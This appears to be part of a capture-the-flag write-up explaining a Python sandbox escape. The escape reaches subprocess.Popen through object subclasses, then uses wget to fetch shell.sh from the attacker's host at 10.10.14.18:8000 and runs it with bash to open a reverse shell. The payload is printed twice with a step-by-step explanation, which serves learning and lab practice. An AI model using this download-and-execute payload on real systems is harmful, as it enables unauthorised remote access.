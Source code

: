## Payload Used
```console
[].__class__.__base__.__subclasses__().pop(407)(['wget','10.10.14.18:8000/shell.sh'])
[].__class__.__base__.__subclasses__().pop(407)(['bash','shell.sh'])
```
### Payload Explained
```python
>>> [].__class__
<type 'list'>   
```
This returns the class of a list.

```python
>>> [].__class__.__base__
<type 'object'>
```
This returns the base class of the list.

```python
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod
...
```
This returns all the subclasses of object class. Now from this list we have to find a class with method that helps us to get a reverse shell on the box.

As this is a list we can access a object using `[index]`.
```python
[].__class__.__base__.__subclasses__()[10]
```
So with trial and error, I finally found a class `Subprocess.Popen` on index number 407.

```python
>>> [].__class__.__base__.__subclasses__()[407]
<class 'subprocess.Popen'>
```
 As explained on the post on medium that I followed, there were issues with this approach and we were not able to execute commands. So the single class is taken out of the list using `pop`.
 ```python
 >>> [].__class__.__base__.__subclasses__()[407]
<class 'subprocess.Popen'>
```
### Final payload
```python
[].__class__.__base__.__subclasses__().pop(407)(['wget','10.10.14.18:8000/shell.sh'])
[].__class__.__base__.__subclasses__().pop(407)(['bash','shell.sh'])
```
Here first of all we will create a file called shell.sh on our local box with content for reverse shell and we will start a web server on port 8000. Then we will download this **shell.sh** file on the remote box using wget and we will execute this file. I went this approach because the usual reverse shell payload have a lot of character with symbols like `<` `>` `|` and `&`. 
